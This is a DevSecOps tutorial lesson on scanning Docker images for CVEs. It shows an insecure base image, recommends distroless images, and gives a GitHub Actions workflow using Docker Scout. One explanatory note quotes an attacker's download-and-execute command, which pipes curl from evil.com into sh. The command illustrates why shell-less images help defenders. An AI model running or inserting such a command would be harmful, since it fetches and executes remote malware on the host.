

import { Callout } from 'fumadocs-ui/components/callout';
import { Steps, Step } from 'fumadocs-ui/components/steps';

<LessonIntro>
Packaging an application into a Docker container does not automatically make it secure. When you start your Dockerfile with `FROM node:16` or `FROM python:3.8`, you are inheriting hundreds of outdated operating system libraries — including old versions of `glibc`, `curl`, and `openssl` riddled with known CVEs. Container vulnerability scanning scans image layers in your CI pipeline, blocking insecure containers from ever reaching a registry.
</LessonIntro>

<Concepts items={['Base Image Vulnerabilities', 'Common Vulnerabilities & Exposures (CVE)', 'CVSS Severity Scores', 'Docker Scout Layer Analysis', 'Trivy Scanning', 'Minimal & Distroless Images']} />

## The "Dirty Base Image" Hazard

Consider this innocent-looking Dockerfile:

```dockerfile
# ❌ INSECURE DOCKERFILE
FROM ubuntu:18.04

RUN apt-get update && apt-get install -y python3 python3-pip curl
COPY . /app
WORKDIR /app
CMD ["python3", "server.py"]
```

When you build this image and scan it with a vulnerability scanner, the output is shocking:
```text
Target: my-app:latest (ubuntu 18.04)
===================================================
Total Vulnerabilities: 342 (Critical: 8, High: 45, Medium: 112, Low: 177)
```
Even though your Python code is 10 lines long and bug-free, the underlying Ubuntu operating system contains **8 Critical CVEs** allowing remote code execution and privilege escalation!

---

## Remediating Base Images: The "Slim" and "Distroless" Path

Vulnerability scanners like **Docker Scout** and **Aqua Trivy** provide actionable remediation advice:



<LessonNote variant="why" title="Why Attackers Need a Shell">
If an attacker finds a remote code execution exploit in your web framework, their very first command is almost always `/bin/sh -c "curl http://evil.com/malware | sh"`. In a **Distroless** container, there is no Bash, no sh, no curl, and no package manager. The attacker's payload cannot execute because the system lacks the basic binaries required to stage an attack!
</LessonNote>

---

## Hands-On: Blocking Vulnerabilities in GitHub Actions with Docker Scout

Here is a complete workflow that builds a local Docker container image, scans it with Docker Scout, and automatically fails the Pull Request if any `CRITICAL` vulnerabilities are detected:

```yaml
name: DevSecOps Container Scan

on:
  pull_request:
    branches: [main]

jobs:
  scan-container:
    name: Build & Scout Scan
    runs-on: ubuntu-latest
    steps:
      - name: Checkout Code
        uses: actions/checkout@v4

      - name: Set up Docker Buildx
        uses: docker/setup-buildx-action@v3

      - name: Log in to Docker Hub
        uses: docker/login-action@v3
        with:
          username: ${{ secrets.DOCKERHUB_USERNAME }}
          password: ${{ secrets.DOCKERHUB_TOKEN }}

      - name: Build Local Container Image (Do not push!)
        uses: docker/build-push-action@v5
        with:
          context: .
          load: true # Loads image into local Docker daemon for scanning
          tags: ${{ github.repository }}:pr-${{ github.event.number }}

      - name: Run Docker Scout Vulnerability Scan
        uses: docker/scout-action@v1
        with:
          command: cves
          image: ${{ github.repository }}:pr-${{ github.event.number }}
          only-severities: critical,high
          exit-code: true # Fails the pipeline if vulnerabilities match threshold!
          summary: true   # Renders a formatted markdown table in PR summary!

      - name: Compare Against Base Branch
        uses: docker/scout-action@v1
        with:
          command: compare
          image: ${{ github.repository }}:pr-${{ github.event.number }}
          to: ${{ github.repository }}:latest
          ignore-unchanged: true
          only-severities: critical,high
```

---

<QuickRecall title="Self-Check: Container Vulnerability Scanning">
1. Why does an application with 50 lines of secure code often show dozens of Critical CVEs when built inside a container?
2. What is a "Distroless" container image, and why does removing `/bin/sh` drastically hinder attackers?
3. In a DevSecOps pipeline, why should you set `exit-code: true` on critical CVE detection?
</QuickRecall>
